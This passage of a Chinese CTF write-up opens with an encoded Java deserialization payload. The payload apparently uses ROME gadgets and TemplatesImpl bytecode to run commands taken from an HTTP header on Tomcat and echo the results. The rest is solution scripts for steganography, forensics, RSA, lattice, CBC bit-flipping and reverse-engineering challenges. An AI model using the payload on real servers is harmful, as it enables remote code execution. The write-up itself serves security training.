dHJpbmc7KUxqYXZhL2xhbmcvcmVmbGVjdC9GaWVsZDsBABFnZXREZWNsYXJlZE1ldGhvZAEAQChMamF2YS9sYW5nL1N0cmluZztbTGphdmEvbGFuZy9DbGFzczspTGphdmEvbGFuZy9yZWZsZWN0L01ldGhvZDsBAA1zZXRBY2Nlc3NpYmxlAQAEKFopVgEAEGphdmEvbGFuZy9UaHJlYWQBAA1jdXJyZW50VGhyZWFkAQAUKClMamF2YS9sYW5nL1RocmVhZDsBABVnZXRDb250ZXh0Q2xhc3NMb2FkZXIBABkoKUxqYXZhL2xhbmcvQ2xhc3NMb2FkZXI7AQAMZ2V0UmVzb3VyY2VzAQAnKClMb3JnL2FwYWNoZS9jYXRhbGluYS9XZWJSZXNvdXJjZVJvb3Q7AQAjb3JnL2FwYWNoZS9jYXRhbGluYS9XZWJSZXNvdXJjZVJvb3QBAApnZXRDb250ZXh0AQAfKClMb3JnL2FwYWNoZS9jYXRhbGluYS9Db250ZXh0OwEAA2dldAEAJihMamF2YS9sYW5nL09iamVjdDspTGphdmEvbGFuZy9PYmplY3Q7AQAOZmluZENvbm5lY3RvcnMBACwoKVtMb3JnL2FwYWNoZS9jYXRhbGluYS9jb25uZWN0b3IvQ29ubmVjdG9yOwEAJ29yZy9hcGFjaGUvY2F0YWxpbmEvY29ubmVjdG9yL0Nvbm5lY3RvcgEACWdldFNjaGVtZQEAFCgpTGphdmEvbGFuZy9TdHJpbmc7AQAGbGVuZ3RoAQADKClJAQASZ2V0UHJvdG9jb2xIYW5kbGVyAQAlKClMb3JnL2FwYWNoZS9jb3lvdGUvUHJvdG9jb2xIYW5kbGVyOwEAEmdldERlY2xhcmVkQ2xhc3NlcwEAFCgpW0xqYXZhL2xhbmcvQ2xhc3M7AQAHZ2V0TmFtZQEABmludm9rZQEAOShMamF2YS9sYW5nL09iamVjdDtbTGphdmEvbGFuZy9PYmplY3Q7KUxqYXZhL2xhbmcvT2JqZWN0OwEABHNpemUBABUoSSlMamF2YS9sYW5nL09iamVjdDsBAAlnZXRIZWFkZXIBACYoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvU3RyaW5nOwEAB2dldE5vdGUBABBqYXZhL2xhbmcvU3lzdGVtAQALZ2V0UHJvcGVydHkBAAt0b0xvd2VyQ2FzZQEACGNvbnRhaW5zAQAbKExqYXZhL2xhbmcvQ2hhclNlcXVlbmNlOylaAQARamF2YS9sYW5nL1J1bnRpbWUBAApnZXRSdW50aW1lAQAVKClMamF2YS9sYW5nL1J1bnRpbWU7AQAEZXhlYwEAKChbTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvUHJvY2VzczsBABFqYXZhL2xhbmcvUHJvY2VzcwEADmdldElucHV0U3RyZWFtAQAXKClMamF2YS9pby9JbnB1dFN0cmVhbTsBABgoTGphdmEvaW8vSW5wdXRTdHJlYW07KVYBAAx1c2VEZWxpbWl0ZXIBACcoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL3V0aWwvU2Nhbm5lcjsBAAdoYXNOZXh0AQADKClaAQAEbmV4dAEAC2dldFJlc3BvbnNlAQAqKClMb3JnL2FwYWNoZS9jYXRhbGluYS9jb25uZWN0b3IvUmVzcG9uc2U7AQAmb3JnL2FwYWNoZS9jYXRhbGluYS9jb25uZWN0b3IvUmVzcG9uc2UBAAlnZXRXcml0ZXIBABcoKUxqYXZhL2lvL1ByaW50V3JpdGVyOwEAEGphdmEvbGFuZy9PYmplY3QBAAhnZXRDbGFzcwEAEygpTGphdmEvbGFuZy9DbGFzczsBABFqYXZhL2xhbmcvQm9vbGVhbgEABUZBTFNFAQATTGphdmEvbGFuZy9Cb29sZWFuOwEAA3NldAEAJyhMamF2YS9sYW5nL09iamVjdDtMamF2YS9sYW5nL09iamVjdDspVgEADmphdmEvaW8vV3JpdGVyAQAFd3JpdGUBABUoTGphdmEvbGFuZy9TdHJpbmc7KVYBAAVmbHVzaAAhAEUARgAAAAAAAwABAEcASAABAEkAAATvAAQAGwAAAfsqtwABEgISA7YABEwSBRIGtgAETRIHEgi2AAROEgkSCgG2AAs6BCsEtgAMLAS2AAwtBLYADBkEBLYADbgADrYAD8AAEDoFKxkFtgARuQASAQC2ABPAAAU6BiwZBrYAE8AAFDoHGQe2ABU6CAM2CRUJGQi%2bogGDBxkIFQkytgAWtgAXoAFuGQgVCTK2ABg6ChkKwQAZmQFiEgm2ABo6CwM2DBUMGQu%2bogFHEDQZCxUMMrYAG7YAF58AExA8GQsVDDK2ABu2ABegASEZCxUMMhIctgAEOg0SHRIetgAEOg4ZDQS2AAwZDgS2AAwZDRkEGQoBtgAftgATwAAdOg8ZDhkPtgATwAAgOhADNhEVERkQuQAhAQCiANAtGRAVEbkAIgIAtgATwAAjOhIZEhIktgAlOhMZEgS2ACbAACc6FBIouAAptgAqEiu2ACyaABkGvQAtWQMSLlNZBBIvU1kFGRNTpwAWBr0ALVkDEjBTWQQSMVNZBRkTUzoVuAAyGRW2ADO2ADQ6FrsANVkZFrcANhI3tgA4OhcZF7YAOZkACxkXtgA6pwAFEjs6GBkUtgA8tgA9OhkZFLYAPLYAPhI/tgAEOhoZGgS2AAwZGhkUtgA8sgBAtgBBGRkZGLYAQhkZtgBDpwADpwAJhAwBp/63pwAJhAkBp/57pwAETLEAAQAEAfYB%2bQBEAAMASgAAAMIAMAAAAAoABAAMAAwADQAUAA4AHAAPACYAEAArABEAMAASADUAEwA7ABUARgAWAFkAFwBkABgAawAZAHYAGgCFABsAjwAcAJcAHQCeAB4AqQAfAMkAIADVACEA3gAiAOQAIwDqACQA/AAlAQgAJgEXACcBKQAoATIAKQE9ACoBeAArAYUALAGVAC0BqQAuAbMALwHCADAByAAxAdUAMgHcADMB4QA0AeQANgHnAB4B7QA5AfAAGQH2AD4B%2bQA9AfoAPwBLAAABEAAbASkAuwBMAE0AEgEyALIATgBPABMBPQCnAFAAUQAUAXgAbABSAFMAFQGFAF8AVABVABYBlQBPAFYAVwAXAakAOwBYAE8AGAGzADEAWQBaABkBwgAiAFsAXAAaAQsA2QBdAF4AEQDVARIAXwBcAA0A3gEJAGAAXAAOAPwA6wBhAGIADwEIAN8AYwBkABAAoQFMAGUAXgAMAJ4BTwBmAGcACwCPAWEAaABpAAoAbgGIAGoAXgAJAAwB6gBrAFwAAQAUAeIAbABcAAIAHAHaAG0AXAADACYB0ABuAG8ABABGAbAAcABxAAUAWQGdAHIAcwAGAGQBkgB0AHUABwBrAYsAdgB3AAgAAAH7AHgAeQAAAHoAAAD8AA//AG4ACgcAewcAfAcAfAcAfAcAfQcAfgcAfwcAgAcAgQEAAP4AMgcAggcAgwEn/wBBABIHAHsHAHwHAHwHAHwHAH0HAH4HAH8HAIAHAIEBBwCCBwCDAQcAfAcAfAcAhAcAhQEAAP4AVwcAhgcAhwcAiFIHAIn%2bAC4HAIkHAIoHAItBBwCH/wA8ABEHAHsHAHwHAHwHAHwHAH0HAH4HAH8HAIAHAIEBBwCCBwCDAQcAfAcAfAcAhAcAhQAA/wACAA0HAHsHAHwHAHwHAHwHAH0HAH4HAH8HAIAHAIEBBwCCBwCDAQAA%2bQAF%2bgAC/wAFAAEHAHsAAEIHAIwAAAEAjQCOAAMASQAAAD8AAAADAAAAAbEAAAACAEoAAAAGAAEAAABCAEsAAAAgAAMAAAABAHgAeQAAAAAAAQCPAJAAAQAAAAEAkQCSAAIAkwAAAAQAAQCUAJUAAAAJAgCPAAAAkQAAAAEAjQCWAAMASQAAAEkAAAAEAAAAAbEAAAACAEoAAAAGAAEAAABFAEsAAAAqAAQAAAABAHgAeQAAAAAAAQCPAJAAAQAAAAEAlwCYAAIAAAABAJkAmgADAJMAAAAEAAEAlACVAAAADQMAjwAAAJcAAACZAAAAAQCbAAAAAgCccHQABG5hbWVwdwEAeHNyAChjb20uc3VuLnN5bmRpY2F0aW9uLmZlZWQuaW1wbC5FcXVhbHNCZWFu9YoYu%2bX2GBECAAJMAApfYmVhbkNsYXNzdAARTGphdmEvbGFuZy9DbGFzcztMAARfb2JqcQB%2bAAd4cHZyAB1qYXZheC54bWwudHJhbnNmb3JtLlRlbXBsYXRlcwAAAAAAAAAAAAAAeHBxAH4AEHNyACpjb20uc3VuLnN5bmRpY2F0aW9uLmZlZWQuaW1wbC5Ub1N0cmluZ0JlYW4J9Y5KDyPuMQIAAkwACl9iZWFuQ2xhc3NxAH4AF0wABF9vYmpxAH4AB3hwcQB%2bABpxAH4AEA%3d%3d
```

> 出题人：想让大家了解一下反序列化之后的利用，所以写了一个toString，类似于idea的debug也存在这个问题。

# Misc

### soEasyCheckin

base32，但有问题，倒数出现了0$，0–>O,$—>S，得到一串hex。
结果hex那里又有问题，具体是出在83¥6988ee这里
根据规律,每6个字节的第1个字节为e，然后把¥替换成e
得到社会主义核心价值观编码，但是还是有个地方是错误的，中间有一段为：和谐斃明平
然后把他那个斃随便改一下，我改的“富强”
解码得到的SET{Qi2Xin1Xie2Li4-Long3Yuan0Zhan4Yi4}
根据拼音，可以知道是Yuan2
所以最终flag为：

SET{Qi2Xin1Xie2Li4-Long3Yuan2Zhan4Yi4}

### 打败病毒

下载压缩包，解压后是HMCL和Minecraftn


查看MC核心，发现被修改过


查看附带的文件，只有一个存档


猜测flag在存档或者核心里，创建帐户，启动游戏，进入存档


可以看到要打败冠状病毒，使用作弊打败或在核心寻找冠状病毒


可以看到冠状病毒在游戏里是末影龙，flag在终末之诗



类似Base64串和提示可以猜测为Base62，放到CyberChef解码



### SOS

下载压缩包，解压后是HMCL和Minecraft


查看MC核心，没有被修改


查看附带的文件，有一个存档和一个资源包



猜测flag在资源包或者存档里，创建帐户，启动游戏，进入存档




听到有拨号音，旁边红石电路在工作，调整速度 




中继器调到3后可以听到清晰的拨号音，顺序查看命令方块可知为0-9，在资源包中找到0-9


使用Audition查看，得到DTMF音对应的字符

 

0-9解出来6830AB1C75，踩对应的字符得到flag



附赠原版DTMF资源包https://share.weiyun.com/UtGUutFz

### EasySteg

jk.png 盲水印提出：-b81b-


base64之后是LWI4MWIt

注释有东西


tab和空格转10


分出一张图片


oursecret解密，密码是LWI4MWIt

得到

n9S2B3I6U6L1O3R2F3Y1G2H3v9N2M1Z1D6T1h18o16u17b9s7r4g8f10a14m2i20p2e14w7q2y8P1J2E2C1V1A1j4k5x5t3c6824956{13217d9748365402511221058710}1l4Q1W1z1

结合上面的01二进制，猜测是哈夫曼树

```python
#!/usr/bin/env python

# -*- coding: utf-8 -*-

# 统计字符出现频率，生成映射表

def count_frequency(text):
    chars = []
    ret = []
    

    for char in text:
        if char in chars:
            continue
        else:
            chars.append(char)
            ret.append((char, text.count(char)))
    
    return ret

 

# 节点类

class Node:
    def __init__(self, frequency):
        self.left = None
        self.right = None
        self.father = None
        self.frequency = frequency

    def is_left(self):
        return self.father.left == self

 

# 创建叶子节点

def create_nodes(frequency_list):
    return [Node(frequency) for frequency in frequency_list]


# 创建Huffman树

def create_huffman_tree(nodes):
    queue = nodes[:]

    while len(queue) > 1:
        queue.sort(key=lambda item: item.frequency)
        node_left = queue.pop(0)
        node_right = queue.pop(0)
        node_father = Node(node_left.frequency + node_right.frequency)
        node_father.left = node_left
        node_father.right = node_right
        node_left.father = node_father
        node_right.father = node_father
        queue.append(node_father)
     
    queue[0].father = None
    return queue[0]

 

# Huffman编码

def huffman_encoding(nodes, root):
    huffman_code = [''] * len(nodes)
    

    for i in range(len(nodes)):
        node = nodes[i]
        while node != root:
            if node.is_left():
                huffman_code[i] = '0' + huffman_code[i]
            else:
                huffman_code[i] = '1' + huffman_code[i]
            node = node.father
            
    return huffman_code

 

# 编码整个字符串

def encode_str(text, char_frequency, codes):
    ret = ''
    for char in text:
        i = 0
        for item in char_frequency:
            if char == item[0]:
                ret += codes[i]
            i += 1

    return ret

 

# 解码整个字符串

def decode_str(huffman_str, char_frequency, codes):
    ret = ''
    while huffman_str != '':
        i = 0
        for item in codes:
            if item in huffman_str and huffman_str.index(item) == 0:
                ret += char_frequency[i][0]
                huffman_str = huffman_str[len(item):]
            i += 1

    return ret

 

if __name__ == '__main__':
    char_frequency=[('n', 9), ('S', 2), ('B', 3), ('I', 6), ('U', 6), ('L', 1), ('O', 3), ('R', 2), ('F', 3), ('Y', 1), ('G', 2), ('H', 3), ('v', 9), ('N', 2), ('M', 1), ('Z', 1), ('D', 6), ('T', 1), ('h', 18), ('o', 16), ('u', 17), ('b', 9), ('s', 7), ('r', 4), ('g', 8), ('f', 10), ('a', 14), ('m', 2), ('i', 20), ('p', 2), ('e', 14), ('w', 7), ('q', 2), ('y', 8), ('P', 1), ('J', 2), ('E', 2), ('C', 1), ('V', 1), ('A', 1), ('j', 4), ('k', 5), ('x', 5), ('t', 3), ('c', 6), ('8', 24), ('9', 56), ('{', 1), ('3', 217), ('d', 97), ('4', 83), ('6', 54), ('0', 25), ('1', 12), ('2', 10), ('5', 8), ('7', 10), ('}', 1), ('l', 4), ('Q', 1), ('W', 1), ('z', 1)]
    nodes = create_nodes([item[1] for item in char_frequency])
    root = create_huffman_tree(nodes)
    codes = huffman_encoding(nodes, root)
    huffman_str = '1110111111000100001111000011010001101111100110100011110111100010100111110111001101111100011000111111111101011100011111100111000011010001111010011011111001110111100010000111001110011110111000111111100111011111011011101011110111110101101101101000110101011101011111111011110111101101110101111010011010110100011100100011010101111010111110110110111100011010111010111110110110111001001011011110100111010111111010111111011110111101001111010111110111101011100100111100101011011101110111111001010110100100110111110011111001101000111110111001011001110000111000011110000110111110011000011100001101100110100011100001111110011110000110110011010001110011101100001110110001001111111110010110011010001111011110110010011011111000001111100010010001001111101110110111111101101001001001011011101111101101101111001101001011011111100111110110110110110111110111010110111011110011111011011011010000110111111001111110111100111010111110011010011011110101001101110111100110110111101001101011101011111001101111011101101010111010111111001111110111010110110110101001101011111101001101000111010010111000010011001110111110111101101111101101110111010110100101101101101011010111111101111001110111111110011010110100101101111011011101100111001000001111001100100101011000000111100101011001000101100100000011001011001001000001111001100100101011000000111100101011001011111111001010001010001010010000011110011001001010110000001111001010110010001011001010001010000111100100000111100110010010101100000011110010101100101010010101100101010010000011110011001001010110000001111001010110010011001001010110000011011111001000001111001100100101011000000111100101000101000110111110010000001100101010010000011110011001001010010101100000011110010101100100010001001000011111110001010010000011110011001001010110000001111001010110010111111110010100010110001000100100000111100110010010101100000011110010100010100011011111001000000110010101001000001111001100100101011000000111100101011001001100100101011000001101111100100000111100110010010101100000011110010101100100010110010000001100101100100100000111100110010010101100000011110010100010100010100101011000001101111100100000111100110010010101100000011110010100101011001000101100100000011001011001001000001111001100100101011000000111100101011001011111111001010001010001010010000011110011001001010110000001111001010110010001000100100001111111000101001000001111001100100101011000000111100101011001000101100100000011001011001001000001111001100100101011000000111100101011001010100100000011001011111111001000001111001100100101011000000111100101011001000101100100000011001011001001000001111001100100101011000000111100101011001000100010010100100001111111000101001000001111001100100101011000000111100101011001010100100000011001011111111001000001111001100100101011000000111100101000101000101001010110000011011111001000001111001100100101011000000111100101000101000110111110010000001100000011110010000011110011001001010110000001111001010001010000001001010001010000111111011010011110011101011111011100001011010110101111010001111100110111110101111110110101010011101111101100100000101111011010111101101101110011001110001100011111001110010000010111100010111101111111101101101110000111010000101111110001100000110001110010100100000110000101110000100010110111100000101110011111110000111011010111101001101001101111101000100101111101101011111100111111001110001100001000011011111000001111100010011001110111101111111011111001000111000011101101110000111011011110011101111111011011010110100011111000100101111111011100000100000101110010111100011010110100011111101111001110101111010111011011100100110011101111100111101111100000001001001101001101111111101101011110111011110011101001101111010100110111011101011110011100000011010010111111000100110011101111101011110111110111'
    origin_str = decode_str(huffman_str, char_frequency, codes)
    print('Decode result:',origin_str)
```

得到：

The text to encode:nSBIULORFYGHvNMIOUZSDTNhnoubuosrgfbouvasmruiohauiopewgvfbwuivpqynqwUPIFJDDBUEDUIDHBUIDCVHJIOAejikxneiwkyiohwehiooiuyhiosehfhuiaetyhovauieyrghfuotgvac89xcboiyuweagihniaweo{3d46303d39463d39383d41393d46303d39463d39323d38433d46303d39463d39383d38463d46303d39463d39333d39333d46303d39463d39303d39453d46303d39463d38453d41333d46303d3d39463d39373d42433d46303d39463d39323d38373d46303d39463d38453d41333d46303d39463d39303d39453d46303d39463d39383d41393d46303d39463d38433d39453d46303d39463d3d39383d41393d46303d39463d39323d38433d46303d39463d39373d42433d46303d39463d39383d41393d46303d39463d39333d41323d46303d39463d39383d41393d46303d39463d39373d3d42433d46303d39463d39333d41323d46303d39463d38433d39453d46303d39463d38453d41463d46303d39463d38443d3846}huilagsieufrcb78QWEGF678Rniolsdf149687189735489246avaeukighf6497ejixcnbmlolohnbasik2647893hasfhuvzxchbjkaefgyhuetyuhjadfxcvbn

16进制转字符串：

=F0=9F=98=A9=F0=9F=92=8C=F0=9F=98=8F=F0=9F=93=93=F0=9F=90=9E=F0=9F=8E=A3=F0==9F=97=BC=F0=9F=92=87=F0=9F=8E=A3=F0=9F=90=9E=F0=9F=98=A9=F0=9F=8C=9E=F0=9F==98=A9=F0=9F=92=8C=F0=9F=97=BC=F0=9F=98=A9=F0=9F=93=A2=F0=9F=98=A9=F0=9F=97==BC=F0=9F=93=A2=F0=9F=8C=9E=F0=9F=8E=AF=F0=9F=8D=8F

是Quoted-printable编码

解码得到：

😩💌😏📓🐞🎣🗼💇🎣🐞😩🌞😩💌🗼😩📢😩🗼📢🌞🎯🍏

尝试一番之后，可用emoji-cracker解决

https://github.com/pavelvodrazka/ctf-writeups/tree/d957cab439f796304bdb005e45b333cd83203c04/hackyeaster2018/challenges/egg17/files/cracker


原图像是分数小波变换处理后的，算法很简单，简单处理一下

```
import cv2
import numpy as np
from pywt import dwt2, idwt2

D = cv2.imread('text_d.png',0)

zeros = np.ones(shape = H.shape)
rimg = idwt2((zeros,(D,D,D)), 'haar')
cv2.imwrite("output.png",np.uint8(rimg))
```


得到flag{156cca8e

flag{156cca8e-b81b-4157-9f39-4c41f4a4facb}

### checkin

**part 1**

根据题目描述，关注到截图软件 `snipaste`，从其历史截图的缓存中发现 `veracrypt` 的密码：


**part 2**

将桌面上的 `flag.vhd` 挂载为本地磁盘后，解密得到 `task.py` `cip.png` 以及 `flag.zip` ，查看 `flag.zip` 注释可以发现提示 `who is invited?` ，那么我们解密 cip.png 即可得到邀请函，exp如下：

```python
# from PIL import Image
# import sys
#
# # if len(sys.argv) != 3:
# #     print("Usage: %s [infile] [outfile]" % sys.argv[0])
# #     sys.exit(1)
#
# image = Image.open("cip.png").convert("F")
# width, height = image.size
# result = Image.new("F", (width, height))
#
# ROUNDS = 32
#
# f = open('tuples.csv', 'w')
# for i in range(width):
#     for j in range(height):
#         value = 0
#         di, dj = 1337, 42
#         for k in range(ROUNDS):
#             di, dj = (di * di + dj) % width, (dj * dj + di) % height
#             f.write('%d,%d\n' % (di,dj))
#             value += image.getpixel(((i + di) % width, (j + dj + (i + di)//width) % height))
#         result.putpixel((i, j), value / ROUNDS)
#
# f.close()
# result = result.convert("RGB")
# result.save("cip2.png")

from PIL import Image

image = Image.open("cip.png").convert("F")
width, height = image.size
result = Image.new("F", (width, height))

ROUNDS = 32

lines = iter(open('tuples.csv', 'r').readlines()[::-1])
for i in range(width):
    for j in range(height):
        value = 0
        for k in range(ROUNDS):
            line = next(lines)
            di = int(line.split(",")[0])
            dj = int(line.split(",")[1])
            value += image.getpixel(((i - di) % width, (j - dj + (i - di)//width) % height))
        result.putpixel((i, j), value / ROUNDS)

result = result.convert("RGB")
result.show()
result.save("out.png")
```

即可得到邀请函中的名字是 `every ctfer`

**part 3**

`flag.data` 是 /dev/input/event* 中的键盘记录，这一点已经在比赛当中的hint给出，解析即可得到flag，exp如下：

```python
#!/usr/bin/python
import struct
import time
import sys

infile_path = "./flag.data"

FORMAT = 'llHHI'
EVENT_SIZE = struct.calcsize(FORMAT)

#open file in binary mode
in_file = open(infile_path, "rb")

event = in_file.read(EVENT_SIZE)

keys = {
        "0" : "[NULL]",
        "1" : "[ESC]",
        "2" : "1",
        "3" : "2",
        "4" : "3",
        "5" : "4",
        "6" : "5",
        "7" : "6",
        "8" : "7",
        "9" : "8",
        "10" : "9",
        "11" : "0",
        "12" : "-",
        "13" : "=",
        "14" : "[BACKSPACE]",
        "15" : "[TAB]",
        "16" : "q",
        "17" : "w",
        "18" : "e",
        "19" : "r",
        "20" : "t",
        "21" : "y",
        "22" : "u",
        "23" : "i",
        "24" : "o",
        "25" : "p",
        "26" : "[",
        "27" : "]",
        "28" : "[ENTER]",
        "29" : "[LEFT_CTRL]",
        "30" : "a",
        "31" : "s",
        "32" : "d",
        "33" : "f",
        "34" : "g",
        "35" : "h",
        "36" : "j",
        "37" : "k",
        "38" : "l",
        "39" : ";",
        "40" : "'",
        "41" : "`",
        "42" : "[LEFT_SHIFT]",
        "43" : "\\",
        "44" : "z",
        "45" : "x",
        "46" : "c",
        "47" : "v",
        "48" : "b",
        "49" : "n",
        "50" : "m",
        "51" : ",",
        "52" : ".",
        "53" : "/",
        "54" : "[RIGHT_SHIFT]",
        "55" : "[GRAY*]",
        "56" : "[LEFT_ALT]",
        "57" : "[SPACE]",
        "58" : "[CAPS]",
        "59" : "[F1]",
        "60" : "[F2]",
        "61" : "[F3]",
        "62" : "[F4]",
        "63" : "[F5]",
        "64" : "[F6]",
        "65" : "[F7]",
        "66" : "[F8]",
        "67" : "[F9]",
        "68" : "[F10]",
        "69" : "[NUM_LOCK]",
        "70" : "[SCROLL_LOCK]",
        "71" : "[PAD_7]",
        "72" : "[PAD_8]",
        "73" : "[PAD_9]",
        "74" : "[GRAY_MINUS]",
        "75" : "[PAD_4]",
        "76" : "[PAD_5]",
        "77" : "[PAD_6]",
        "78" : "[GRAY_PLUS]",
        "79" : "[PAD_3]",
        "80" : "[PAD_2]",
        "81" : "[PAD_1]",
        "82" : "[PAD_0/INS]",
        "83" : "[PAD_./DEL]",
        "84" : "[PRTSCR/SYSRQ]",
        "87" : "[F11]",
        "88" : "[F12]",
        "90" : "PAUSE/BREAK",
        "91" : "[INSERT]",
        "92" : "[HOME]",
        "93" : "[PG_UP]",
        "94" : "[GRAY/]",
        "95" : "[DELETE]",
        "96" : "[END]",
        "97" : "[PG_DN]",
        "98" : "[RIGHT_ALT]",
        "99" : "[RIGHT_CTRL]",
        "100" : "[UP_ARROW]",
        "101" : "[LEFT_ARROW]",
        "102" : "[DOWN_ARROW]",
        "103" : "[RIGHT_ARROW]",
        "104" : "[GRAY_ENTER]",
        "105" : "[MOUSE]",
        "183" : "[PRTSC]"
        }
count = 0
while event:
    count += 1
    (tv_sec, tv_usec, type, code, value) = struct.unpack(FORMAT, event)

    if type != 0 or code != 0 or value != 0:
        # print("Event type %u, code %u, value %u at %d.%d" % \
        #     (type, code, value, tv_sec, tv_usec))
        if count == 3:
            print(count, end="")
            print(" ", end="")
            print(keys[str(code)], end="")
    else:
        # Events with code, type and value == 0 are "separator" events
        count = 0
        print()

    event = in_file.read(EVENT_SIZE)

in_file.close()
```

```
SET{Wow_Y0u_c4n_r3A11y_Forensic}
```

# Crypto

### mostlycommon

```
from gmpy2 import *
from Crypto.Util.number import *

def modulus(n,e1,e2,c1,c2):
    
    _,s,t = gcdext(e1, e2)
    m = (pow(c1,s,n) * pow(c2 , t , n)) % n
    print(long_to_bytes((iroot(m,2)[0])))
    
N=122031686138696619599914690767764286094562842112088225311503826014006886039069083192974599712685027825111684852235230039182216245029714786480541087105081895339251403738703369399551593882931896392500832061070414483233029067117410952499655482160104027730462740497347212752269589526267504100262707367020244613503
c1=39449016403735405892343507200740098477581039605979603484774347714381635211925585924812727991400278031892391996192354880233130336052873275920425836986816735715003772614138146640312241166362203750473990403841789871473337067450727600486330723461100602952736232306602481565348834811292749547240619400084712149673
c2=43941404835820273964142098782061043522125350280729366116311943171108689108114444447295511969090107129530187119024651382804933594308335681000311125969011096172605146903018110328309963467134604392943061014968838406604211996322468276744714063735786505249416708394394169324315945145477883438003569372460172268277
e1 = 65536
e2 = 270270
print(gcd(e1,e2))
modulus(N,e1,e2,c1,c2)
#SETCTF{now_you_master_common_mode_attack}
```

### easytask

```
典型GGH公钥加密
from sage.modules.free_module_integer import IntegerLattice
e=[151991736758354,115130361237591,58905390613532,130965235357066,74614897867998,48099459442369,45894485782943,7933340009592,25794185638]
W=[[-10150241248,-11679953514,-8802490385,-12260198788,-10290571893,-334269043,-11669932300,-2158827458,-7021995],
[52255960212,48054224859,28230779201,43264260760,20836572799,8191198018,14000400181,4370731005,14251110],
[2274129180,-1678741826,-1009050115,1858488045,978763435,4717368685,-561197285,-1999440633,-6540190],
[45454841384,34351838833,19058600591,39744104894,21481706222,14785555279,13193105539,2306952916,7501297],
[-16804706629,-13041485360,-8292982763,-16801260566,-9211427035,-4808377155,-6530124040,-2572433293,-8393737],
[28223439540,19293284310,5217202426,27179839904,23182044384,10788207024,18495479452,4007452688,13046387],
[968256091,-1507028552,1677187853,8685590653,9696793863,2942265602,10534454095,2668834317,8694828],
[33556338459,26577210571,16558795385,28327066095,10684900266,9113388576,2446282316,-173705548,-577070],
[35404775180,32321129676,15071970630,24947264815,14402999486,5857384379,10620159241,2408185012,7841686]]
e = vector(e)
W = matrix(W)
e = vector(e)
W = matrix(W)
def babai(A, w):
    A = A.LLL()
    G = A.gram_schmidt()[0]
    t = w
    for i in reversed(range(A.nrows())):
        c = ((t * G[i]) / (G[i] * G[i])).round()
        t -= A[i] * c
    return w - t
V = babai(W,e)
m = V/W
print(m)

import hashlib
from Crypto.Util.number import *
from Crypto.Cipher import AES
c = int('1070260d8986d5e3c4b7e672a6f1ef2c185c7fff682f99cc4a8e49cfce168aa0',16)
m = [877, 619, 919, 977, 541, 941, 947, 1031, 821]
key = hashlib.sha256(str(m).encode()).digest()
cipher = AES.new(key, AES.MODE_ECB)
flag = cipher.decrypt(long_to_bytes(c))
print(flag)
```

### Civet cat for Prince

```
from hashlib import sha256
from pwn import *
import string
from Crypto.Util.strxor import strxor

def proof_of_work(end, sha):
    for a in table:
        for b in table:
            for c in table:
                for d in table:
                    if sha256((a+b+c+d+end).encode()).hexdigest() == sha:
                        r.recvuntil(b'[+] Give Me XXXX :')
                        r.sendline((a+b+c+d).encode())
                        print(a+b+c+d)


table = string.ascii_letters + string.digits
r = remote('', )
r.recvuntil(b"[+] sha256(XXXX+")
end = r.recv(8).decode()
r.recvuntil(b") == ")
sha = r.recvuntil(b'\n')[:-1].decode()
proof_of_work(end, sha)
r.recvuntil(b'2.Go away\n')
r.sendline(b'1')
r.recvuntil(b'\n')
r.sendline(b'a'*16)
r.recvuntil(b'Miao~ ')
iv = r.recvuntil(b'\n')[:-1]
print(iv)
r.recvuntil(b'3.say Goodbye\n')
r.sendline(b'1')
r.recvuntil(b"Permission:")
permission = r.recvuntil(b'\n')[:-1]
print(permission)
r.recvuntil(b'3.say Goodbye\n')
r.sendline(b'2')
r.recvuntil(b'Give me your permission:\n')
p1 = strxor(strxor(permission[:16], b"a_cat_permission"), b'Princepermission')
print(p1)
r.sendline(p1)
r.recvuntil(b'Miao~ \n')
r.sendline(iv)
r.recvuntil(b"The message is ")
m = r.recvuntil(b'\n')[:-1]
fiv = strxor(strxor(m, b'a'*16), iv)
r.recvuntil(b'3.say Goodbye\n')
r.sendline(b'3')
r.recvuntil(b"Give me your permission:\n")
r.sendline(p1+permission[16:])
r.recvuntil(b"What's the cat tell you?\n")
r.sendline(fiv)
r.interactive()
```


# Re

### EasyRE_Revenge

EasyRE的憨憨出题人忘记删flag了，已剖腹谢罪


32位exe，无壳；

IDA32打开


进入关键加密函数，发现有花指令


试着手动Patch去花指令，发现太多，结构几乎相似。


所以可以写脚本去花指令，我这里写的IDC。

注意每一块花指令，内部有初始化赋值得代码数据，要跳过，所以得读一下汇编。

```c
//IDC脚本
auto addr_start =0x007217A0;//函数起始地址
auto addr_end = 0x00721E58;//函数结束地址
auto i=0,j=0;
for(i=addr_start;i<addr_end;i++){
    if(Dword(i) == 0x1E8){
        for(j=0 ; j<6; j++,i++ ){
            PatchByte(i,0x90);
        }
        i=i+4;
        for(j=0 ; j<3; j++,i++ ){
            PatchByte(i,0x90);
        }
        i=i+10;
        for(j=0 ; j<3; j++,i++ ){
            PatchByte(i,0x90);
        }
        i=i+5;
        for(j=0 ; j<1; j++,i++ ){
            PatchByte(i,0x90);
        }   
        i=i+3;
        for(j=0 ; j<2; j++,i++ ){
            PatchByte(i,0x90);
        }     
        i--;    
    }
} 
```


执行之后，在这块字节码得函数开头按u键（undefined），再在开头按p建（Create Function），构造好函数后，即可成功f5反汇编。


可以看到这部分代码了，就是很多位运算，直接通过python的z3解题即可。

提取出v4的数据，和main函数中用于比较的数据

```python
#python
from z3 import *

#提取出v4的数据
v5 = [0x271e150c,0x3b322920,0x5f564d44,0x736a6158,0x978e857c,0xaba29990,0xcfc6bdb4,0xe3dad1c8,]

v6 = [0,0,0,0,0,0,0,0]

#main函数中用于比较的数据
data = [0x0EEE8B042,0x57D0EE6C,0x0F3F54B32,0x0D3F0B7D6,0x0A61C389,0x38C7BA40,0x0C3D9E2C,0x0D64A9284]


x0=BitVec('x0',32)
x1=BitVec('x1',32)
x2=BitVec('x2',32)
x3=BitVec('x3',32)
x4=BitVec('x4',32)
x5=BitVec('x5',32)
x6=BitVec('x6',32)
x7=BitVec('x7',32)

s = z3.Solver()

print(type(x1))

v6[0]=x0^v5[2]
v6[1]=x1^v5[1]
v6[2]=x2^v5[0]
v6[3]=x3^v5[7]
v6[4]=x4^v5[6]
v6[5]=x5^v5[5]
v6[6]=x6^v5[4]
v6[7]=x7^v5[3]

for i in range(8):
    v6[i] ^= (v6[i] << 7)
    v6[i] ^= v5[(i*7+3)%8]
    v6[i] ^= v6[(i*5+3)%8]
